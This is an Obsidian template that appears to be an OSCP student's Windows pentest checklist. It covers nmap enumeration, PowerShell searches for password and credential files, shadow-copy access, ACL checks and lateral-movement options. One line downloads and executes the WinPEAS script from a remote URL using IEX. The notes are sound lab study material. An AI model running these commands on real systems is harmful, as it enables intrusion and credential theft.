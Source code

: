 <% tp.file.rename("0_SystemChecklist")%>

# Enumeration

```bash
mkdir /oscp/lab/x
```

```bash
i="$hip";sudo nmap --osscan-guess -T 5 -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -T 5 -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```

> Then, create services templates.

# Initial Foothold

##### Utilized software versions
```

```
`searchsploit` and Google Dorks
##### NSE scripts
```bash
ls /usr/share/nmap/scripts
```

> Also, use the service templates
# Loot

Hostname `hostname`
	
##### Users
```powershell
Get-LocalUser
```
Alternative: `net user`
##### Network
```powershell
ipconfig /all; route print; netstat -ano; netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```
	
##### Interesting files
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -Include *password* -Include proof.txt -Include local.txt -Include sysprep.inf -Include Unattended.xml -File -Recurse -ErrorAction SilentlyContinue; Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue; Get-History; (Get-PSReadlineOption).HistorySavePath | cat - ; 
```
	
##### Home folder
```powershell
Get-ChildItem -Recurse -Path C:\Users\offsec | select Parent,Name
```
	
Alternative: `dir /B /S /A-D`
##### Advanced
Mounted Volumes: `mountvol`
Devices: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`
Drivers: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"`
Shadow Copy: `vssadmin list shadows`, `mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\`
# PrivEsc
##### Find Working Dir for attack
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	

WinPEAS
```bash
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1'); ./linpeash.ps1 -a -r | tee linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`

> I still have to run WinPEAS once and check what additional commands I need to integrate from [[2_loot-privEsc_Windows_Manually]]


Consider [[3_dllHijacking_guide]]

Ways to login as another user:
- If we have access to the GUI -> `RunAs /user:$user cmd`
- User is in group _Remote Desktop Users_ -> RDP
- User is in group _Remote Management Users_ -> WinRM (Better use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from non-interactive shells)
- User has _Log on as a batch job_ right -> Schedule task to execute a program of our choice as this user
- User has active session -> Use PsExec (SysInternals)